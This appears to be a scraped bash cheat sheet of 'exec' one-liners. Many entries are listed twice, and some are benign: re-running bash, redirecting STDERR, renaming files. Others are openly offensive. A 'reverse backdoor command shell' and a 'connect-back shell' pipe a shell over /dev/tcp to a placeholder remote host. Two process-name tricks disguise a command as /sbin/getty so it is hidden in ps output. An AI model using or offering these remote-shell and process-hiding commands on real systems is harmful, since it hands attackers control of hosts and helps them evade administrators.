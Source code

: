 # exec

##### Hide the name of a process listed in the `ps` output

   exec  -a "$(ps -fea | awk '{print $8}'| sort -R | head -n1)" your_command -sw1 -sw2

##### Reverse Backdoor Command Shell using Netcat

   exec  5<>/dev/tcp/<your-box>/8080;cat <&5 | while read line; do $line 2>&5 >&5; done

##### Get your external IP address

   exec  3<>/dev/tcp/whatismyip.com/80; echo -e "GET /automation/n09230945.asp HTTP/1.0\r\nHost: whatismyip.com\r\n" >&3; a=( $(cat <&3) ); echo ${a[${#a[*]}-1]};

##### Clean way of re-running bash startup scripts.

   exec  bash

##### Hide the name of a process listed in the `ps` output

   exec  -a "/sbin/getty 38400 tty7" your_cmd -erase_all_files

##### Read and write to TCP or UDP sockets with common bash tools

   exec  5<>/dev/tcp/time.nist.gov/13; cat <&5 & cat >&5; exec 5>&-

##### Connect-back shell using Bash built-ins

   exec  0</dev/tcp/hostname/port; exec 1>&0; exec 2>&0; exec /bin/sh 0</dev/tcp/hostname/port 1>&0 2>&0

##### Reclaim standard in from the tty for a script that is in a pipeline

   exec  0</dev/tty

##### Rename files in a directory in an edited list fashion

   exec  3<&0; ls -1N | while read a; do echo "Rename file: $a"; read -e -i "$a" -p "To: " b <&3 ; [ "$a" == "$b" ] ||  mv -vi "$a" "$b"; done

##### Setting global redirection of STDERR to STDOUT in a script

   exec  2>&1

##### Reverse Backdoor Command Shell using Netcat

   exec  5<>/dev/tcp/<your-box>/8080;cat <&5 | while read line; do $line 2>&5 >&5; done

##### Clean way of re-running bash startup scripts.

   exec  bash

##### Hide the name of a process listed in the `ps` output

   exec  -a "/sbin/getty 38400 tty7" your_cmd -erase_all_files

##### Read and write to TCP or UDP sockets with common bash tools

   exec  5<>/dev/tcp/time.nist.gov/13; cat <&5 & cat >&5; exec 5>&-

##### Connect-back shell using Bash built-ins

   exec  0</dev/tcp/hostname/port; exec 1>&0; exec 2>&0; exec /bin/sh 0</dev/tcp/hostname/port 1>&0 2>&0

##### Reclaim standard in from the tty for a script that is in a pipeline

   exec  0</dev/tty

##### Rename files in a directory in an edited list fashion

   exec  3<&0; ls -1N | while read a; do echo "Rename file: $a"; read -e -i "$a" -p "To: " b <&3 ; [ "$a" == "$b" ] ||  mv -vi "$a" "$b"; done

##### Setting global redirection of STDERR to STDOUT in a script

   exec  2>&1

